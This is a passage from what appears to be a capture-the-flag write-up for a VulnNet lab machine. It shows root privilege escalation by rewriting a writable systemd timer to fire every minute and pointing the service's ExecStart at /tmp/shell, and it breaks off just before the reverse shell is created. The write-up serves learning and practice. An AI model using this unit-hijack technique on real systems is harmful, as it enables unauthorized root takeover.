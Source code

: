 Now let's investigate `vulnnet-job.service`.

```sh
$ cat vulnnet-job.service

[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
```

We concluded that `vulnnet-auto.timer` runs immediately `vulnnet-job.service` after booting and every 30 minutes. We also concluded that `vulnnet-job.service` is running `/bin/df` through `ExecStart`, the job now is to escalate to `root` user through this service. Let's do that now.

Running `vi` or `nano` becomes a problem possibly due to tty/pty size? So let's use the `echo` workaround. Let's first change the value of `vulnnet-auto.timer`.

```sh
$ echo "[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
OnCalendar=*:0/1
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target" > vulnnet-auto.timer
```

Let's move on to changing the value of `vulnnet-job.service`.

```sh
$ echo "[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/tmp/shell

[Install]
WantedBy=multi-user.target" > vulnnet-job.service
```

Let's not forget to create our reverse shell instance.
